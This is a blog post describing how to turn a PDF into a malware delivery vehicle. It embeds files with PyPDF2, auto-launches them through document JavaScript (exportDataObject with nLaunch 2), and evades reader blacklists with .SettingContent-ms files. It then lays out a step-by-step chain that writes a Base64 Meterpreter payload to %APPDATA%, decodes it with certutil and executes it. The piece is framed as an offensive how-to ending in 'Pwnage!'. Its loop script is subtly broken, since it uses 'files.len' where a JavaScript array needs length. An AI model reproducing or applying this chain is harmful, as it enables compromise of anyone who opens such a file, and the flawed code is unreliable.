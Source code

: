 ```yaml
---
title: "PDF Embedding Attacks"
date: 2018-08-04T12:17:11-05:00
categories:
- Hacking
- Programming
- JavaScript
description: Turns out, it's possible to embed files that automatically execute as soon as a PDF is opened, making it an optimal malware delivery mechanism.
---
```


PDF, or Portable Document Format, is an incredibly complex file format, governed by many
standards and semi-standards. Like HTML and CSS, it was primarily designed for document
layout and presentation. Also like HTML and CSS, it has been augmented with a JavaScript
engine and document API that allows programmers to turn PDF documents into applications -
or vehicles for malware.

# Embedding Files in PDF Documents

It's very easy to embed any kind of file in a PDF document. Every document includes the
`EmbeddedFiles` name tree, along with support for collections of files, known as
portfolios.

Most PDF libraries provide support for this; we'll examine PyPDF2, which supports
everything we need and is pure Python.

PyPDF2's `PdfFileWriter` provides a method called `addAttachment` which takes a name
and some bytes and embeds them as a file in the PDF ([docs](https://pythonhosted.org/PyPDF2/PdfFileWriter.html?highlight=embed)).

This is how malware is usually concealed in a PDF document - as an embedded file.

# Opening Files from PDF Documents

Now that we have a payload embedded in a PDF document, we need to actually open it.
The basic method for this is to also embed a script in the PDF document. In our case, we
want to add a document level script. This script will execute as soon as the PDF is opened.

Fortunately, PyPDF2 also supports this! We can simply add a JavaScript object with the
method `addJS`, and that JavaScript will be registered to run on the PDF opening.

Our JavaScript payload is pretty simple: we just add a single call to `exportDataObject`,
a function provided by the PDF reader. This function takes an object with 2 parameters:

- `cName`, the name of the embedded object, and
- `nLaunch`, an instruction as to what the PDF reader should do with the exported object

`nLaunch` is just an integer, and it has three valid values:

0. Prompt the user for a path and save the file there
1. Prompt the user for a path, save the file, and ask the operating system to open it
2. Pick a temporary location, save the file there, and ask the operating system to open it

That last option sounds great for malware. Assuming we embedded a file called
`myExploit.exe`, we would add the following JavaScript:

```javascript
this.exportDataObject({
    cName: "myExploit.exe",
    nLaunch: 2,
});
```
and it would run as soon as the PDF was opened, right? Well, not quite. Unfortunately,
there's a bit more to it; Adobe Reader (and most other readers) will prevent the launch
of common executable files. For example, `.exe`, `.js`, `.vba`, and `.bat` files cannot
be opened. 

# Evading the Blacklist

There are many ways to evade the blacklist, such as Microsoft Word documents with
malicious macros embedded in them ([read more](https://isc.sans.edu/forums/diary/PDF+maldoc1+maldoc2/20079/<Paste>)),
but recently, researchers discovered that another kind of file could be used: 
`.SettingContent-ms`. As explained by [the SpecterOps team](https://posts.specterops.io/the-tale-of-settingcontent-ms-files-f1ea253e4d39), these are just XML documents pointing to specific places in 
the Windows 10 settings GUI. However, they contain a field called `DeepLink` which can
contain any arbitrary executable which will be run when the `SettingsContent-ms` file is
executed.

# Deploying a Payload

Let's bring this all together. How would we use this in a real attack?

There are a few steps we need to perform in order to get this attack working.

## 1: Create a Payload

There are many great ways of creating effective payloads. In this case, I'll assume you
have a payload already; my payload of choice is a Meterpreter reverse shell encoded with
some type of cloaker.

## 2: Encode the Payload in Base64

We can use `certutil.exe -encode InputFile EncodedFile` on Windows or
`base64 input > output` on Linux to encode and decode files with Base64. This will let
us more readily insert it where it is needed.

## 3: Embedded Files 

We need to run 3 commands, so we'll use the above method to embed three files. They will
all be valid `SettingContent-ms` XML, differing only in the `DeepLink` node.

1. `PutFile.SettingContent-ms` which will `echo` the Base64 encoded payload to disk at a
known path (`echo b46c827y... > %APPDATA%\evil.b64`).
2. `Decode.SettingContent-ms` which will decode the Base64 encoded payload into an EXE (
`certutil -decode %APPDATA%\evil.b64 %APPDATA%\evil.exe`)
3. `Execute.SettingContent-ms` which will actually run that file. (`%APPDATA%\evil.exe`)

## 4: Scripts

Now, we need a single script which will run all of these:

```javascript
var files = ["PutFile", "Decode", "Execute"];
for (var i = 0; i < files.len; i++) {
	this.exportDataObject({
		cName: files[i] + ".SettingContent-ms",
		nLaunch: 2,
	});
}
```

## 5: Pwnage!

Now we have our Metasploit payload running on the target! Congratulations, time to move
into post-exploitation.

## Alternative Methods

Another method would be to use Reflective PE Injection, converting a PowerShell process
into the process for our executable. To learn more about this, check out [this post](https://truesecdev.wordpress.com/2016/03/15/embedding-exe-files-into-powershell-scripts/).


# Conclusion

PDF files are extremely complex, and the applications that read them tend to be old and
full of cruft, designed without security in mind. A black-listing method will never be
effective in eliminating all dangerous files, as we can see here. This technique requires
no exploits; we just ask the OS to run a file for us and it does so!

